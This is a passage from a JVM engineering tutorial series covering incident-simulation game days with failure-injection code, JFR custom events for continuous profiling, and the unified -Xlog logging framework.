3. **Controlled failure reveals tooling gaps:** Simulated incidents expose missing monitoring, incorrect alerts, or tools that do not work under pressure (e.g., jcmd timing out during heap exhaustion).

**DERIVED DESIGN:**

These invariants force: (1) regular practice sessions with injected failures, (2) a catalog of reproducible failure scenarios with known diagnostic paths, (3) post-simulation review comparing response time to target.

**THE TRADE-OFF:**

**Gain:** 5-10x faster incident response. Confidence under pressure. Team discovers tooling gaps before real incidents.

**Cost:** Engineering time for simulation setup. Risk if accidentally run in production. Requires isolated environment.

---

### 🧠 Mental Model

> JVM incident simulation is like a fire drill. Nobody expects to learn firefighting during an actual fire. Regular drills build automatic responses: check oxygen (heap), find exits (thread dumps), use extinguisher (jcmd commands). The drill is not about the fire itself but about making the RESPONSE automatic.

- "Fire drill" -> incident simulation session
- "Check oxygen" -> check heap/GC state (jstat, GC logs)
- "Find exits" -> capture thread dumps (jcmd Thread.print)
- "Use extinguisher" -> apply fix (restart, heap dump, flag change)
- "Automatic response" -> muscle memory for diagnostic sequence

**Where this analogy breaks down:** real fires have one correct action (evacuate). JVM incidents have many possible root causes requiring differential diagnosis. The simulation must cover multiple scenarios, not just one drill.

---

### 🧩 Components

- **Memory pressure injection:** Allocate byte arrays to approach OOM. Tests heap dump capture and GC log analysis.
- **GC storm simulation:** Allocate and retain objects in specific patterns to trigger prolonged Full GC. Tests GC tuning response.
- **Thread leak injection:** Create threads without termination. Tests thread dump analysis and identifies limit failures.
- **CPU hotspot simulation:** Spin loops or compilable-intensive code. Tests CPU profiling workflow (async-profiler, JFR).
- **Metaspace exhaustion:** Dynamic class generation (CGLib/ByteBuddy in loops). Tests metaspace monitoring and diagnosis.

```text
Incident simulation catalog:
  Scenario 1: GC Storm
    Inject: allocate 90% heap in long-lived objects
    Symptom: p99 latency spikes, GC time > 50%
    Practice: jstat, GC logs, heap dump, identify
    Time target: 5min from alert to root cause

  Scenario 2: Thread Leak
    Inject: create 100 threads/sec, never terminate
    Symptom: thread count grows, eventually OOM
    Practice: jcmd Thread.print, identify creator
    Time target: 3min to identify leak source

  Scenario 3: Native Memory Leak
    Inject: Direct ByteBuffer allocation without release
    Symptom: RSS grows, heap stable, OOM kill
    Practice: NMT diff, jemalloc profile
    Time target: 10min (harder to diagnose)
```



---

### 📶 Gradual Depth

**Level 1 - What it is:** Deliberately causing JVM problems (memory leaks, GC issues, thread exhaustion) in a test environment so the team practices diagnosing and fixing them before encountering them in production.

**Level 2 - How to use it:** Schedule monthly "game day" sessions. Each session: inject one failure type, time the team's response, document the diagnostic path, identify tooling gaps. Rotate scenarios to cover all failure modes over a quarter.

**Level 3 - How it works:** Create a simple Java application that can be instructed (via REST endpoint or flag) to exhibit specific pathological behavior: allocate-and-retain (heap pressure), create-threads-forever (thread leak), load-classes-forever (metaspace). Deploy it with production-equivalent monitoring. Run the scenario. Practice the full path from alert to diagnosis to resolution.

**Level 4 - Production mastery:** Advanced simulations inject failures into REAL pre-production environments under synthetic load. This tests not just JVM diagnosis but the entire incident response chain: monitoring detects the anomaly, alerting fires correctly, runbook provides accurate steps, team executes within SLA. Measure time-to-detect, time-to-diagnose, and time-to-resolve. Track improvement over quarters.

---

### ⚙️ How It Works

**Phase 1 - Scenario Design:** Choose failure mode. Define injection mechanism. Set expected symptoms and correct diagnostic path.

**Phase 2 - Environment Setup:** Deploy target application with production-equivalent monitoring (Prometheus, Grafana, JFR). Ensure all diagnostic tools available (jcmd, jmap, async-profiler).

**Phase 3 - Injection:** Trigger the failure condition. Start timer. Team responds as if real incident.

**Phase 4 - Triage and Resolution:** Team identifies root cause using available tools. Applies fix or mitigation. Timer stops at correct diagnosis.

**Phase 5 - Retrospective:** Compare actual response path to optimal. Identify delays, wrong turns, missing tools.

```text
Injection patterns (Java code):

// GC Storm:
List<byte[]> leak = new ArrayList<>();
while (running) {
    leak.add(new byte[1024 * 1024]); // 1MB
    Thread.sleep(100); // slow fill
}

// Thread Leak:
while (running) {
    new Thread(() -> {
        try { Thread.sleep(Long.MAX_VALUE); }
        catch (InterruptedException e) {}
    }).start();
    Thread.sleep(50);
}

// Metaspace Exhaustion:
while (running) {
    ClassPool pool = ClassPool.getDefault();
    pool.makeClass("Gen" + counter++).toClass();
}
```



---

### 🚨 Failure Modes

**Failure 1 - Simulation Escapes to Production:**

**Symptom:** Injection code activated in production environment. Real service degradation.

**Root cause:** Feature flag misconfiguration, wrong deployment target, or injection endpoints not secured.

**Diagnostic:**

```bash
# Check if injection endpoint exists in prod:
curl -s http://prod-service:8080/chaos/status
# If responds: injection code deployed to prod!
```

**Fix:** Injection code NEVER in production builds. Use separate artifact/profile. Secure endpoints with auth. Build pipeline gates prevent chaos code in prod.

**Failure 2 - Simulation Does Not Match Reality:**

**Symptom:** Team performs well in simulation but fails in real incident. Simulation environment too different from production.

**Root cause:** Simulation uses toy heap sizes (256MB vs 32GB), different GC algorithm, missing production monitoring.

**Diagnostic:** Compare simulation environment specs to production. Every parameter should match: heap size, GC algorithm, monitoring stack, tool availability.

**Fix:** Use production-equivalent environments. Same JVM flags, same heap size (or proportional), same monitoring. Only the load and data are synthetic.

---

### 🔬 Production Reality

Teams that run monthly JVM incident simulations report 60-70% reduction in mean-time-to-diagnose for real incidents (based on published case studies from Netflix and Uber engineering blogs). The key insight is not technical - it is psychological. Engineers who have seen a GC storm before do not panic. They execute a diagnostic sequence from memory: jstat first (confirms GC issue), GC log (identifies which GC phase), heap dump (finds retainer). This sequence takes 5 minutes when practiced vs 45 minutes when improvised under pressure.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | Game Day (manual)    | Automated chaos     | Tabletop exercise |
| -------------- | -------------------- | ------------------- | ----------------- |
| Realism        | High                 | High                | Low (theoretical) |
| Cost           | Team time (half day) | Setup + infra       | Low (1-2 hours)   |
| Skill building | High (hands-on)      | Moderate (response) | Low (discussion)  |
| Risk           | Moderate (escape)    | Higher (automated)  | None              |
| Frequency      | Monthly              | Continuous          | Weekly possible   |

---

### ⚡ Decision Snap

**RUN FULL SIMULATION WHEN:**

- New team members have not experienced real JVM incidents.
- Incident response time exceeds SLA targets.
- New JVM version/GC algorithm deployed (team needs familiarity).

**USE TABLETOP WHEN:**

- Cannot afford environment for full simulation.
- Want to verify runbook accuracy without running tools.

**IMPLEMENT AUTOMATED CHAOS WHEN:**

- Fleet size justifies investment. Already have incident response maturity.
- Want continuous validation of monitoring and alerting.

---

### ⚠️ Top Traps

| #   | Misconception                      | Reality                                                                                                                |
| --- | ---------------------------------- | ---------------------------------------------------------------------------------------------------------------------- |
| 1   | "Reading docs is sufficient"       | Reading about GC storms and diagnosing one under pressure are completely different skills. Practice is irreplaceable.  |
| 2   | "One simulation covers all"        | Each failure mode has distinct symptoms. Need to cycle through: heap, GC, threads, native, metaspace, CPU.             |
| 3   | "Simulation needs production data" | Synthetic data with realistic volume is sufficient. Never use real customer data in chaos environments.                |
| 4   | "Only senior engineers benefit"    | Juniors benefit MOST. Seniors have seen real incidents. Juniors need simulated experience before their first real one. |
| 5   | "Simulation is too risky"          | Risk is controlled (isolated env). The REAL risk is untrained teams encountering their first GC storm in production.   |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-041 jcmd - The Swiss Army Knife - primary tool used during simulations
- JVM-060 Memory Leak Diagnosis Workflow - diagnosis sequence practiced in simulations

**THIS:** JVM-087 JVM Production Incident Simulation

**Next steps:**

- JVM-098 Build a JVM Dashboard - Phase 3 (Diagnosis) - build monitoring that supports incident response
- JVM-095 JVM Fleet Observability - Key Metrics - fleet metrics needed for incident detection

---

**The Surprising Truth:**

The most valuable outcome of JVM incident simulation is not the technical skill - it is discovering that your monitoring does not work when you need it. Teams consistently find that: (1) jcmd is not installed in production containers, (2) heap dumps cannot be captured because there is no disk space, (3) JFR is not configured in production flags, (4) async-profiler requires ptrace which is disabled by default in containers. Fixing these tooling gaps BEFORE a real incident is more valuable than any amount of GC theory.

**Further Reading:**

- Netflix Tech Blog: "Chaos Engineering: the history, principles, and practice" (2017)
- Google SRE Book, Ch. 28: "Accelerating SREs to On-Call and Beyond"
- Gremlin.com: "JVM Attack Scenarios" - framework for JVM chaos

**Revision Card:**

1. Practice > theory for incident response. Monthly simulation sessions with injected JVM failures.
2. Diagnostic sequence (memorize): jstat -> GC log -> heap dump -> thread dump. Under 5 minutes with practice.
3. Side benefit: discover tooling gaps (jcmd missing, no disk for heap dump, JFR not configured in prod).

**BAD:**

```java
// "We read the JVM tuning guide"
// Team's first GC storm in production:
// t+0: alert fires
// t+15min: "what tool do we use?"
// t+25min: "jcmd not in container"
// t+35min: "heap dump needs 20GB disk (none)"
// t+45min: restart and hope
// Total: 45min, no root cause identified
```

**GOOD:**

```java
// Monthly simulation - team practiced this:
// t+0: alert fires (simulation or real - same)
// t+1min: jstat -gcutil (confirm GC storm)
// t+2min: GC log (identify Full GC frequency)
// t+3min: jmap -dump (retainer analysis)
// t+5min: root cause identified
// Practiced 6 times. Response is automatic.
// Tools verified present in container image.
```

---

---

# JVM-088 JFR Custom Events and Continuous Profiling

**TL;DR** - JDK Flight Recorder (JFR) custom events extend built-in profiling with application-specific metrics, enabling always-on production profiling at <1% overhead that correlates business operations with JVM behavior.

---

### 🔥 Problem Statement

A service experiences periodic latency spikes. Standard JFR events show: GC pauses are normal, thread contention is low, CPU is available. The problem is invisible to JVM-level instrumentation because it is application-specific: a cache miss triggers an expensive recomputation. Without custom JFR events that track "cache hit/miss" and "recomputation duration," the team cannot correlate the latency spike to its root cause. They need to add application-level profiling that integrates with JFR's always-on, low-overhead recording infrastructure.

---

### 📜 Historical Context

JFR was proprietary (Oracle JDK, commercial license required) until JDK 11 (JEP 328) opened it to all OpenJDK builds. Custom events API (jdk.jfr package) shipped in JDK 9. Before JFR, application-level profiling required external APM agents (New Relic, DataDog) with higher overhead (3-5%) or custom metrics frameworks (Micrometer, Dropwizard Metrics) that lack correlation with JVM internals. JFR custom events provide the "missing link" - application metrics stored in the same recording as GC, JIT, threading, and I/O events.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Always-on requires near-zero overhead:** JFR's design budget is <1% CPU overhead for production recording. Custom events must follow the same efficiency discipline.
2. **Correlation requires co-location:** To correlate "slow request" with "GC pause" or "compilation," both events must be in the same recording with synchronized timestamps.
3. **Events are structured data, not log lines:** JFR events have typed fields, automatic timestamps, stack traces, and thread association. They are queryable, not just readable.

**DERIVED DESIGN:**

These invariants mean: (1) custom events use the same fixed-cost recording mechanism as built-in events, (2) events integrate natively with JDK Mission Control (JMC) for visualization, (3) events can be streamed in real-time (JDK 14+ JFR Event Streaming API) for live dashboards.

**THE TRADE-OFF:**

**Gain:** Application-level profiling with <1% overhead. Correlated with JVM internals in one file. Always-on in production.

**Cost:** API learning curve. Events must be well-designed (cardinality, field types). JMC/analysis tooling investment.

---

### 🧠 Mental Model

> JFR is a flight data recorder (black box) for the JVM. Built-in events record engine data (GC, JIT, threads). Custom events let you add BUSINESS data to the same recorder: "passenger boarded" (request received), "meal served" (response sent), "turbulence encountered" (cache miss). Now you can correlate business events with engine events on the same timeline.

- "Flight data recorder" -> JFR recording infrastructure
- "Engine data" -> built-in JVM events (GC, JIT, threading)
- "Business data" -> custom application events
- "Same recorder" -> single .jfr file with correlated timestamps
- "Same timeline" -> synchronized analysis in JMC

**Where this analogy breaks down:** flight recorders are read post-crash. JFR can be read continuously (JFR streaming, JDK 14+) and in real-time. Also, flight data is passive recording, while JFR custom events require explicit instrumentation (you choose what to record).

---

### 🧩 Components

- **jdk.jfr.Event:** Base class for custom events. Extend it, annotate fields, commit at operation end.
- **@Label, @Description, @Category:** Annotations for JMC display. Category determines tree position in JMC.
- **@Threshold:** Minimum duration to record (filters noise). E.g., `@Threshold("10 ms")` - only record operations > 10ms.
- **@StackTrace:** Whether to capture call stack (expensive for high-frequency events). Disable for hot-path events.
- **JFR Event Streaming (JDK 14+):** `RecordingStream` API for real-time consumption of events in-process.
- **jfr command-line tool:** `jfr print --events MyEvent recording.jfr` - filter and display custom events.

```text
Custom JFR Event lifecycle:
  1. Define event class (extends jdk.jfr.Event)
  2. At operation start: event.begin()
  3. Set fields (context: request ID, etc.)
  4. At operation end: event.commit()
  5. JFR writes to ring buffer (<1% overhead)
  6. Analyze: JMC, jfr CLI, or streaming API

Cost model:
  Event disabled (no recording): ~0 ns (JIT inlines check)
  Event enabled, not committed: allocation + field set
  Event committed: ring buffer write (~100ns)
  Total overhead at 10K events/s: < 0.1% CPU
```



---

### 📶 Gradual Depth

**Level 1 - What it is:** JFR lets you define your own profiling events (cache misses, database queries, business operations) that are recorded alongside JVM events (GC, JIT, threads) in a single low-overhead recording - always safe to run in production.

**Level 2 - How to use it:** Create a class extending `jdk.jfr.Event`. Add annotated fields. Call `begin()`, do work, set fields, call `commit()`. Start recording: `jcmd <pid> JFR.start`. Analyze with JMC or `jfr print`.

**Level 3 - How it works:** JFR uses thread-local ring buffers for near-zero contention. When an event is committed, it is serialized into the thread's local buffer. Buffers are periodically flushed to a global recording file. If recording is not active, the JIT compiles the event code to a no-op (zero overhead when disabled). The `@Threshold` annotation means the commit is skipped for fast operations (no allocation, no write).

**Level 4 - Production mastery:** Continuous profiling in production: JFR recording always active with `maxsize=500m` (ring buffer, overwrites oldest). When incident occurs: `jcmd <pid> JFR.dump filename=incident.jfr` captures the last N minutes of all events (custom + built-in). Combine with JFR Event Streaming (JDK 14+) for real-time export to monitoring systems (Prometheus, Grafana). This replaces APM agents for Java-specific metrics with lower overhead.

---

### ⚙️ How It Works

**Phase 1 - Event Class Loading:** At class load time, JFR registers the event type. If no recording is active, event methods become no-ops via JIT.

**Phase 2 - Event Begin:** `event.begin()` records timestamp (nanosecond precision). Minimal cost: single rdtsc instruction.

**Phase 3 - Commit Decision:** `event.commit()` checks: (a) recording active? (b) duration >= threshold? If both true, serialize event to thread-local buffer.

**Phase 4 - Buffer Flush:** Background thread periodically flushes thread-local buffers to the recording file or streaming consumers.

```text
JFR internal architecture:
  Thread 1: [event][event][event] --> flush
  Thread 2: [event][event] -------> flush
  Thread N: [event] --------------> flush
                                      |
                                      v
                              [Global Ring Buffer]
                                      |
                         +------------+--------+
                         |                     |
                   [.jfr file]       [StreamingAPI]
                   (persistent)      (real-time)
```



---

### 🚨 Failure Modes

**Failure 1 - High-Cardinality Event Fields:**

**Symptom:** JFR recording file grows to GB in minutes. Disk fills. Recording stops.

**Root cause:** Custom event has a String field with unique values per event (request ID, user ID). Each unique string stored in JFR's constant pool.

**Diagnostic:**

```bash
# Check recording size growth rate:
jcmd <pid> JFR.dump filename=check.jfr
ls -la check.jfr
# If growing > 10MB/min: cardinality issue
# Use jfr summary to find event counts:
jfr summary check.jfr
```

**Fix:** Remove high-cardinality String fields from events. Use numeric IDs. Or set `maxsize` to bound recording: `-XX:StartFlightRecording=maxsize=500m`.

**Failure 2 - Stack Trace Overhead on Hot Path:**

**Symptom:** Enabling custom events causes 3-5% CPU overhead instead of expected <1%.

**Root cause:** Custom event has `@StackTrace(true)` (default) on an event committed 100K+ times per second. Each commit captures full stack trace.

**Diagnostic:**

```bash
# Profile the profiler:
# async-profiler shows JFR stack walking
# in hot path
asprof -e cpu -d 30 <pid> | grep "getStackTrace"
```

**Fix:** Add `@StackTrace(false)` to high-frequency events. Use `@Threshold("1 ms")` to filter sub-millisecond operations. Reserve stack traces for rare/slow events only.

---

### 🔬 Production Reality

Organizations adopting JFR continuous profiling (always-on recording with bounded ring buffer) report it replaces 60-80% of APM agent functionality at <1% overhead vs 3-5% for traditional agents. The key pattern: custom events for the 5-10 most important application operations (HTTP request handling, database query, cache lookup, external service call) plus built-in JFR events for JVM behavior. JFR Event Streaming (JDK 14+) exports metrics to Prometheus in real-time, eliminating the need for both an APM agent AND JFR.

---

### ⚖️ Trade-offs & Alternatives

| Aspect         | JFR Custom Events | APM Agents         | Micrometer Metrics |
| -------------- | ----------------- | ------------------ | ------------------ |
| Overhead       | <1%               | 3-5%               | <0.5% (counters)   |
| Correlation    | Full (JVM + app)  | Partial            | None (app-only)    |
| Always-on safe | Yes (production)  | Yes (designed for) | Yes                |
| Rich context   | Stack, thread, ts | Distributed trace  | Aggregated only    |
| Tooling        | JMC, jfr CLI      | Vendor dashboard   | Prometheus/Grafana |

---

### ⚡ Decision Snap

**USE JFR CUSTOM EVENTS WHEN:**

- Need correlation between app operations and JVM behavior.
- APM agent overhead is unacceptable.
- Diagnosing issues that cross app/JVM boundary.

**USE APM AGENT WHEN:**

- Distributed tracing across services is primary need.
- Team already invested in APM vendor ecosystem.
- Custom JFR development effort unjustified.

**USE METRICS (Micrometer) WHEN:**

- Only need aggregated statistics (rates, percentiles).
- No need for per-event detail or stack traces.
- Alerting on thresholds is the primary use case.

---

### ⚠️ Top Traps

| #   | Misconception                      | Reality                                                                                               |
| --- | ---------------------------------- | ----------------------------------------------------------------------------------------------------- |
| 1   | "JFR is only for diagnostics"      | JFR with streaming API replaces metrics export. Custom events ARE your metrics source.                |
| 2   | "Custom events are expensive"      | When recording is off, JIT eliminates all event code (zero cost). When on: ~100ns per commit.         |
| 3   | "Need commercial JDK for JFR"      | JFR is free in all OpenJDK builds since JDK 11 (JEP 328). No license required.                        |
| 4   | "JFR replaces distributed tracing" | JFR is per-JVM. It does not track requests across services. Use with tracing, not instead of.         |
| 5   | "@StackTrace is always useful"     | Stack traces add ~1us per event. At 100K events/sec = 100ms/sec = 10% overhead. Disable on hot paths. |

---

### 🪜 Learning Ladder

**Prerequisites:**

- JVM-044 JFR Profiling - Always-On Production Use - basic JFR usage and built-in events
- JVM-052 JIT Compilation Tiers (C1 and C2) - understanding how JIT optimizes away disabled events

**THIS:** JVM-088 JFR Custom Events and Continuous Profiling

**Next steps:**

- JVM-089 Unified JVM Logging (-Xlog) - complementary logging for non-event diagnostics
- JVM-098 Build a JVM Dashboard - Phase 3 (Diagnosis) - JFR streaming feeds dashboard

---

**The Surprising Truth:**

JFR's `@Threshold` annotation combined with JIT optimization means you can instrument EVERY method call in a hot path with zero cost for fast calls. If you set `@Threshold("10 ms")` on an event, and the operation completes in 0.5ms (99.9% of the time), the event is never committed - the JIT can even eliminate the `begin()` call in optimized code paths. You only pay the recording cost for the 0.1% of slow operations you actually want to investigate. This "pay for what you catch" model is why JFR can be always-on: you instrument generously but only record anomalies.

**Further Reading:**

- JEP 328: Flight Recorder (open-sourced in JDK 11)
- JEP 349: JFR Event Streaming (JDK 14)
- Marcus Hirt, "JDK Mission Control and JFR" - tutorial and API guide

**Revision Card:**

1. Custom event: extend `jdk.jfr.Event`, annotate fields, `begin()` -> work -> `commit()`. <1% overhead. Safe always-on.
2. @Threshold filters noise: only record events slower than threshold. Fast ops have zero cost (JIT optimizes away).
3. JFR streaming (JDK 14+) exports events to Prometheus/Grafana in real-time. Replaces APM agent for JVM-specific metrics.

**BAD:**

```java
// Logging-based profiling (high overhead, no correlation)
long start = System.nanoTime();
result = cache.get(key);
long dur = System.nanoTime() - start;
logger.info("cache.get took {}ms for key={}",
    dur/1_000_000, key); // String alloc every call
// 100K calls/sec = 100K log lines/sec
// 5% overhead from string formatting + I/O
// No correlation with GC or JIT events
```

**GOOD:**

```java
@Label("Cache Lookup")
@Category("Application")
@Threshold("5 ms") // Only record slow lookups
@StackTrace(false) // Hot path - no stack
public class CacheLookupEvent extends Event {
    @Label("Key") String key;
    @Label("Hit") boolean hit;
    @Label("Size") int cacheSize;
}
// Usage:
CacheLookupEvent evt = new CacheLookupEvent();
evt.begin();
result = cache.get(key);
evt.key = key;
evt.hit = (result != null);
evt.cacheSize = cache.size();
evt.commit(); // <100ns if > threshold; 0 if not
```

---

---

# JVM-089 Unified JVM Logging (-Xlog)

**TL;DR** - `-Xlog` provides a single framework controlling ALL JVM internal logging (GC, JIT, classloading, threading) through tags, levels, outputs, and decorators - replacing dozens of legacy flags with one consistent syntax.

---

### 🔥 Problem Statement

A team needs GC logs for a production diagnosis. One engineer uses `-verbose:gc`. Another uses `-XX:+PrintGCDetails -XX:+PrintGCDateStamps`. A third uses `-Xloggc:gc.log`. None realize these are deprecated legacy flags partially replaced by `-Xlog` (JDK 9+). The inconsistency means different services have different log formats, different retention policies, and some have no GC logs at all. Unified logging (`-Xlog`) replaces ALL of these with a single, consistent, composable framework covering not just GC but all JVM subsystems.

---

### 📜 Historical Context

Before JDK 9, each JVM subsystem had its own logging flags: `-XX:+PrintCompilation` (JIT), `-XX:+PrintGCDetails` (GC), `-XX:+TraceClassLoading` (classloading). These flags were inconsistent in format, output destination, and decoration (timestamps, thread IDs). JEP 158 (JDK 9) introduced Unified JVM Logging (`-Xlog`), providing a single framework with consistent syntax for all subsystems. Legacy flags were deprecated in JDK 9 and removed in JDK 17.

---

### 🔩 First Principles

**CORE INVARIANTS:**

1. **Tags identify subsystems:** Every log message has one or more tags (gc, jit, class, thread, etc.). Tags are the filter mechanism.
2. **Levels control verbosity:** trace/debug/info/warning/error. Each tag+level combination can be independently enabled.
3. **Outputs are composable:** stdout, stderr, file (with rotation). Multiple outputs simultaneously. Different tags to different files.

**DERIVED DESIGN:**

These invariants mean: (1) one `-Xlog` expression replaces dozens of legacy flags, (2) GC logs, JIT logs, and class loading logs can all be configured in a single command, (3) rotation and retention are built-in (no external logrotate needed for JVM logs).

**THE TRADE-OFF:**

**Gain:** Consistency across subsystems. Composable configuration. Built-in rotation. Deprecates 50+ legacy flags.

**Cost:** New syntax to learn. Some legacy flag behaviors not perfectly mapped. Requires JDK 9+ (no backport to 8).

---

### 🧠 Mental Model

> `-Xlog` is like a building's centralized security camera system. Each camera (tag) covers one area (GC, JIT, classloading). You control which cameras record (levels), where footage goes (outputs), and what timestamp appears on each frame (decorators). One control panel replaces individual switches for each camera.

- "Cameras" -> tags (gc, jit, class, thread, os, etc.)
- "Recording quality" -> levels (trace through error)
- "Footage destination" -> outputs (stdout, file, stderr)
- "Timestamp on frame" -> decorators (time, uptime, pid, tid)
- "Control panel" -> single `-Xlog:` expression

**Where this analogy breaks down:** security cameras are passive. JVM logging can have performance impact at trace/debug levels. Also, you can have multiple independent `-Xlog` arguments simultaneously, each routing different tags to different outputs.

---

### 🧩 Components

- **Tags:** Identify subsystem: `gc`, `gc+heap`, `gc+phases`, `jit`, `class+load`, `thread`, `os`, `safepoint`, etc.
- **Levels:** `off` < `error` < `warning` < `info` < `debug` < `trace`. Each tag can be set independently.
- **Outputs:** `stdout`, `stderr`, `file=<path>` with rotation: `filesize=50m,filecount=5`.
- **Decorators:** Prefix metadata on each line: `time` (ISO timestamp), `uptime` (ms since start), `pid`, `tid`, `tags`, `level`.
- **Wildcard:** `*` matches all tags. `-Xlog:all=warning` sets all tags to warning level.

```text
-Xlog syntax:
  -Xlog:TAG[+TAG...][*][=LEVEL][:OUTPUT[:DECORATORS]]

Examples:
  -Xlog:gc*=info:file=gc.log:time,tags,level
    All gc-related tags at info+, to gc.log, with
    ISO time + tag names + level decorators

  -Xlog:gc*=info:stdout:time
  -Xlog:jit+compilation=debug:file=jit.log
  -Xlog:class+load=info:file=class.log

Tag hierarchy (gc example):
  gc           -> top-level GC events
  gc+heap      -> heap sizing changes
  gc+phases    -> GC phase timings
  gc+age       -> tenuring distribution
  gc+ergo      -> ergonomic decisions
  gc+humongous -> humongous allocations (G1)
```



---

### 📶 Gradual Depth

**Level 1 - What it is:** `-Xlog` is a single JVM flag that controls all internal JVM logging. Instead of memorizing dozens of different flags for GC, JIT, classloading, you use one consistent syntax: `-Xlog:WHAT=LEVEL:WHERE:DECORATORS`.

**Level 2 - How to use it:** For GC logs in production: `-Xlog:gc*=info:file=gc.log:time,tags,level,filesize=100m,filecount=5`. For JIT: `-Xlog:jit+compilation=info:file=jit.log`. Multiple `-Xlog` arguments can coexist.

**Level 3 - How it works:** At JVM startup, `-Xlog` expressions are parsed into a routing table: tag+level -> output. Each log statement in JVM source code has a tag set. When executed, the routing table determines if the message should be written and where. The JIT can eliminate dead log paths (disabled tags become zero-cost).

**Level 4 - Production mastery:** Always-on logging strategy: (1) `gc*=info` to dedicated file with rotation (diagnose GC issues). (2) `safepoint=info` to same or separate file (TTSP issues). (3) `jit+compilation=info` to jit.log (JIT issues). (4) `class+load=debug` temporarily for classloader debugging. At debug/trace levels, performance impact is significant - use only for short diagnostic windows. The `gc+ergo=debug` tag reveals ergonomic decisions (IHOP changes, resize decisions) that explain unexpected GC behavior.

---

### ⚙️ How It Works

**Phase 1 - Configuration Parsing:** At startup, JVM parses all `-Xlog` arguments into internal routing table.

**Phase 2 - Log Message Generation:** JVM internal code calls `log_info(gc, heap)("message %d", value)`. This embeds both the tag set (gc, heap) and level (info).

**Phase 3 - Routing Decision:** For each message, check routing table: is (gc+heap, info) enabled for any output? If not, skip formatting entirely (zero-cost for disabled messages).

**Phase 4 - Formatting and Output:** If enabled, format message string, prepend decorators, write to configured output(s). File output handles rotation (close/open when size exceeded).

```text
Routing table (internal representation):
  gc*=info       -> stdout (time,tags)
  gc*=info       -> file=gc.log (time,level)
  safepoint=info -> file=gc.log (time)
  jit*=debug     -> file=jit.log (time,tags)
  class*=off     -> (disabled)

